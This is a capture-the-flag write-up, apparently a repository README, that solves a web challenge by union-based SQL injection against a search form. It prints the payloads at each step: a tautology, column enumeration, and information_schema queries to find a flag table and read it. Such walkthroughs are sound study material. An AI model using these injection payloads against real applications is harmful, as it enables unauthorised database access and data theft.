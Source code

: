 # Sequelitis


This challenge was really easy. There was one form, by submitting it, the page displayed search results.  
To check SQLi, I submitted single quote at the end of query.
And because of error, the content after the search result block did not render. 

![Single quote](2.png)

So I have used `' OR '1'='1` payload to get list of all users. But there was no flag.
![All users](3.png)

So I tried retriving all the tables in the database. We need to know number of columns in the current query so that we can use union based attacks. By using `' union select 1,2,3 -- `, I found that first and second columns were of firsr and last name, the 3rd column was of ID.
![Number of columns](4.png)

I have used `John' union select table_schema,2,table_name  FROM information_schema.tables -- ` to get all tables. There was one table named flag.
![Tables](5.png)

But now we still need the colums of `flag` table. To get columns,
* `John' union select column_name, data_type, 1 from information_schema.columns WHERE table_name = 'flag'-- `

![Columns](6.png)



Now that we know table and it's column names, we can use...
* `John' union select value,0,0 from flag -- `

![Flag](7.png)

> ### LLS{explicit_sqli_is_how_sql_will_die}

